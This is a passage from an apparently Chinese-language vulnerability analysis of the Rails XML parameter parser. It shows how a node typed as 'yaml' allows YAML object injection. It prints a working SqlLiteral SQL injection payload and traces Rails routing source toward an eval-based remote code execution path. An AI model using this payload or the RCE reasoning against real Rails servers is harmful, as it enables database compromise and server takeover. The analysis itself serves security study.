 这段代码笔者刚看时也没看出有啥问题来，后来根据 POC 和 Gary 大牛的指导，才知道 xml 里的 node 可以制订 type，而 type 只要在 ActiveSupport::XmlMini::PARSING 中，就会被解析！如果 type 被指定为 YAML 呢？答案是可以解析，这样，我们又回到了成因（1）结束的地方，只不过这次我们不是直接吧 http 请求的 content－type 指定为 application/yaml，而是指定为 application/xml，同时将其中一个 node 的 type 指定为 yaml。

针对上面描述的 SQL 注入，虽然我们还是没法注入带 Symbol 类型 key 的 Hash 对象（万恶的 withIndifferent），但是 POC 作者给出了使用 SqlLiteral 进行注入的思路，即我们需要提交一个如下的 XML 到有注入漏洞的 controller

```
<?xml version="1.0" encoding="UTF-8"?>  
<id type="yaml">  
---| !ruby/string:Arel::Nodes::SqlLiteral  
"1 or 1=1"

</id> 
```

此处，YAML 的 TAG 比较复杂：“ruby/string:Arel::Nodes::SqlLiteral”，简单的说，此处是以 string 的方式解析“1 or 1=1”这个字符串，也就相当于调用了 SqlLiteral.new("1 or 1=1"),这样就能进行广大黑阔们最爱的 SQL 注入了。

**0x03 进阶**

都能注入 YAML 对象了，还得去找个 2B 码畜的代码来进行 SQL 注入？postmodern 大牛说这简直弱爆了，于是给出了一个 RCE，因为参数解析发生在 url 路由之前，只要参数确实被解析了，就可以无视 Controller 的存在性，无视是 GET 还是 POST，甚至无视代码是怎么写的。

简单的说，YAML 有几种解析方式，如果以“---||||||||||| !ruby/string”为前缀，后面的字符串相当于传给了构造函数，如果以“---||||||||||| !ruby/object“为前缀，后面的 Hash 相当于设置对象的实例变量，如果以“---||||||||||| !ruby/hash”为前缀，则相当于在对象上调用 obj[key]=val，限于篇幅，读者可以自己去看一下 ROR 中 YAML 的解析部分代码，此处略去。

奇葩的是，在 ruby 中，obj[key]=val 这样的赋值操作是有一个专门的函数"[]="来完成的，postmodern 找到了在 ActionDispatch::Routing::RouteSet::NamedRouteCollection 的"[ ]="方法里面有一个对 key 进行 eval 的代码路径：

```
alias []=   add  
...  
def add(name, route)  
    routes[name.to_sym] = route  
    define_named_route_methods(name, route)  
end

def define_named_route_methods(name, route)  
    {:url => {:only_path => false}, :path => {:only_path => true}}\  
          .each do |kind, opts|  
              #by clozure  
              #require 'logger'  
              #Logger.new("/tmp/rails.logger").info(route)  
              hash = route.defaults.merge(:use_route => name).merge(opts)  
              define_hash_access route, name, kind, hash  
              define_url_helper route, name, kind, hash  
          end  
end

def define_hash_access(route, name, kind, options)  
     selector = hash_access_name(name, kind)  
     #by clozure  
     #require 'logger'  
     #Logger.new("/tmp/rails.log").info(selector)  
     # We use module_eval to avoid leaks  
     @module.module_eval <<-END_EVAL, **FILE**, **LINE** + 1  
         remove_possible_method :#{selector}  
     ... ...  
end

def hash_access_name(name, kind = :url)

    :"hash_for_#{name}_#{kind}"

end 
```